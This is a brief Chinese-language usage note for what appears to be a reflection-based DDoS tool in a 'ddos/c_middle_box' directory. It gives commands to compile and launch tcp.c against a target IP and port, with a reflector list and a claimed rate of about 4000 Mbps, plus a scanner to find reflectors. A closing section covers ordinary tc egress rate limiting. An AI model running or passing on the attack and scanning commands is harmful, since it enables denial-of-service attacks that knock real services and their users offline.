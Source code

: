 ### 目录
    cd ddos/c_middle_box

### Attack
    gcc tcp.c -o tcp -pthread && ./tcp ip port packet.txt 2 20

- packet.txt 初始目录 约4000mbp/s

- 反射文件 为 ip:port


### 扫描
        gcc tcpscan.c -o tcpscan && ./tcpscan src_ip src_port packet.txt


. 用 tc 设置出口限速 20Mbps
核心命令：

bash
复制
编辑
sudo tc qdisc add dev ens160 root tbf rate 20mbit burst 32kbit latency 400ms
✅ 参数解释：

tc qdisc add dev ens160 root tbf：在 ens160 设备上，添加 TBF（Token Bucket Filter）流控。

rate 20mbit：限制速率为 20Mbps。

burst 32kbit：允许短时间突发 32kb。

latency 400ms：最大延迟 400ms。

注意：如果之前设置过 tc，需要先清除：

bash
复制
编辑
sudo tc qdisc del dev ens160 root
再重新添加。
